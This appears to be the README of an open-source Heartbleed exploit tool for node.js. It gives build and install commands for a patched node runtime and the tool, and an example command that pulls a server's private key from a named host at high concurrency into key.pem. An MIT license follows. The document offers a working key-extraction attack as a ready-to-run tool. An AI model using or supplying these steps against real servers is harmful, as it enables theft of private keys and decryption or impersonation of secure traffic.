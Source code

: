 # Heartbleed

Extracting server private key using [Heartbleed][0] OpenSSL vulnerability.

## How to use

You will need patched node.js version in order to be able to run this script.
The instructions of compiling it are following:

```bash
git clone git://github.com/indutny/heartbleed
git clone git://github.com/joyent/node -b v0.10.26 node-hb
cd node-hb
git apply ../heartbleed/node-v0.10.26.patch
./configure --prefix=$HOME/.node/0.10.26-hb
make -j24 install
ls ./node
```

Then you could just install this script using npm:

```bash
export PATH="$HOME/.node/0.10.26-hb/bin:$PATH"
npm install -g heartbleed
```

And run it:

```bash
$ heartbleed
Options:
  --host         [required]
  --port         [default: 443]
  --concurrency  [default: 1]

Missing required arguments: host

$ heartbleed -h cloudflarechallenge.com -c 1000 >> key.pem
```

#### LICENSE

This software is licensed under the MIT License.

Copyright Fedor Indutny, 2014.

Permission is hereby granted, free of charge, to any person obtaining a
copy of this software and associated documentation files (the
"Software"), to deal in the Software without restriction, including
without limitation the rights to use, copy, modify, merge, publish,
distribute, sublicense, and/or sell copies of the Software, and to permit
persons to whom the Software is furnished to do so, subject to the
following conditions:

The above copyright notice and this permission notice shall be included
in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN
NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM,
DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR
OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE
USE OR OTHER DEALINGS IN THE SOFTWARE.

[0]: http://heartbleed.com/

